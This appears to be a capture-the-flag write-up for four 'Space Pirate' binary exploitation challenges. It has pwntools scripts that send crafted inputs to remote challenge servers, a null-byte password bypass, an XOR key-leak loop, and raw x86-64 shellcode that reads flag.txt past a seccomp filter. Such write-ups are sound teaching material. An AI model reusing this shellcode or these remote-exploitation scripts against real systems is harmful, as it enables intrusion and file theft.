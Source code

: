 # Space Pirate: Entry Point

--> *You just need to press 2 and the program will output the flag, pretty boring*

* Or if you choose the hard way, you will need to overwrite some value to an address to get the flag.

# Space Pirate: Going Deeper

* In this challenge, the program will read your input and compare it with a password stored inside the program 
* If you type in the password the normal way, it will simply not work because your input will be appened with an endline character "\n" 

**--> The solution is simple append your input with a "\x00" then send it. Here is a script i wrote in python**

```python
from pwn import *
#p = process('./sp_going_deeper')
p = remote('157.245.33.77',32510)
p.sendlineafter(b'>> ',b'1')
p.sendlineafter(b': ',b'DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft\x00')
print(p.recvall())

```

# Space Pirate: Vault Breaker

* A typical encryption scheme, the program will give us the encrypted flag (key ^ flag), so we need to use the **Generate new key** function to zero out the byte we need


```python
from pwn import *

flag = b''

for index in range(0,32):
	p = process('./vault-breaker')
	#p = remote('157.245.33.77',30337)
	p.sendlineafter(b'> ',b'1')
	p.sendlineafter(b': ',str(index).encode())
	p.sendlineafter(b'> ',b'2')
	r = b''
	while b'Master password for Vault:' not in r:	
		r = p.recvline()
	leak = r.split(b': ')[1]
	flag += chr(leak[index]).encode() # Flag[index] is leaked
	print("index = " + str(index),end='      ')
	print(flag.decode())
	print('-----------------------------------------------------------')
	if (flag.endswith(b'}')):
		break
print(f"Flag found: {flag}")
```

* While running this script on both local and remote machine, I encounterd unexpected crash several times. But if i re-ran it, it worked normally. So if you know whats wrong with my script, feel free to message me

# Space Pirate: Fleet Management

* If you disassemble the program, you will see there is a hidden input (9). Upon pressing 9 the program will read our input. With a bit knowledge in reversing, you will realize that the program will treat your input as a sequence of instrunctions and attemp to run it
* But there are restrictions, we can not call system('/bin/sh') because of the seccomp_rule, we are only allowed to execute openat and sendfile, but that's all we need.

```python

from pwn import *

p = remote('178.62.83.221',32008)

payload = b"\x6A\x00\x48\xBB\x66\x6C\x61\x67\x2E\x74\x78\x74\x53\x48\xBF\x9C\xFF\xFF\xFF\x00\x00\x00\x00\x48\x89\xE6\x48\x31\xD2\x48\xC7\xC0\x01\x01\x00\x00\x0F\x05\x48\x31\xFF\x40\xB7\x01\x48\x89\xC6\x4D\x31\xD2\x41\xB2\x1E\x48\x31\xC0\xB0\x28\x0F\x05"
      #  This is a piece of assembly code to invoke openat() and sendfile() which will print out the flag for us. 
      #  You can code it in assembly and then get the byte representation of it through some online assembler. Or you can craft your payload using pwn.shellcraft()
p.sendlineafter(b'do? ',b'9')
p.sendline(payload)
r = p.recvline()
print("Flag: ",r.decode())

```
